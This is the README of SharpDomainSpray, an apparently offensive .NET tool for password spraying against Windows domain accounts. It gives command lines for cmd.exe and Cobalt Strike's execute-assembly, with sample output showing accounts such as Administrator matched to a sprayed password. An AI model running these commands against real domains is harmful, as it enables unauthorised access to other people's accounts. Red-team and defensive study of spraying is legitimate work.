 # SharpDomainSpray

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

SharpDomainSpray is a very simple password spraying tool written in .NET. It takes a password then finds users in the domain and attempts to authenticate to the domain with that given password.

## Usage 

cmd.exe
```
C:\> SharpDomainSpray.exe test12345!

User: Administrator Password is: test12345!

User: TestUser Password is: test12345!
```
Cobalt Strike
```
> execute-assembly /path/to/SharpDomainSpray.exe test12345!

User: Administrator Password is: test12345!

User: TestUser Password is: test12345!
```
